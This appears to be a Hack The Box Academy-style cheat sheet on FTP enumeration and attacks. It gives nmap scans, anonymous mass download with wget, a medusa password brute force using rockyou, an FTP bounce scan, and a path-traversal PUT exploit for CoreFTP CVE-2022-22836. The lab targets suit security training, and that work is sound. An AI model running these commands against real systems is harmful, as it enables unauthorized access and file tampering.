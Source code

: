 ```
# Nmap

find / -type f -name ftp* 2>/dev/null | grep scripts
sudo nmap -sV -p21 -sC -A 10.129.14.136 --script-trace
```

| **Command**                                               | **Description**                                                         |
| --------------------------------------------------------- | ----------------------------------------------------------------------- |
| `ftp <FQDN/IP>`                                           | Interact with the FTP service on the target.                            |
| `nc -nv <FQDN/IP> 21`                                     | Interact with the FTP service on the target.                            |
| `telnet <FQDN/IP> 21`                                     | Interact with the FTP service on the target.                            |
| `openssl s_client -connect <FQDN/IP>:21 -starttls ftp`    | Interact with the FTP service on the target using encrypted connection. |
| `wget -m --no-passive ftp://anonymous:anonymous@<target>` | Download all available files on the target FTP server.                  |

```
# User not permitted to FTP

HTB-ACADEMY@htb[/htb]$ cat /etc/ftpusers

# Trouble shooting

ftp> debug
ftp> trace
ftp> ls -R            # recursive listing

# Commands

put file.txt
get file.txt
status
verbose
```

### **Brute forcing**
```bash
Orbixio@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```
### **FTP Bounce Attack**
![](https://academy.hackthebox.com/storage/modules/116/ftp_bounce_attack.png)

Source: [https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/](https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/)

```shell-session
Orbixio@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

**CoreFTP before build 727 [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)**

```shell-session
Orbixio@htb[/htb]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```


## References
- [https://www.smartfile.com/blog/the-ultimate-ftp-commands-list](https://www.smartfile.com/blog/the-ultimate-ftp-commands-list)
- [https://en.wikipedia.org/wiki/List_of_FTP_server_return_codes](https://en.wikipedia.org/wiki/List_of_FTP_server_return_codes)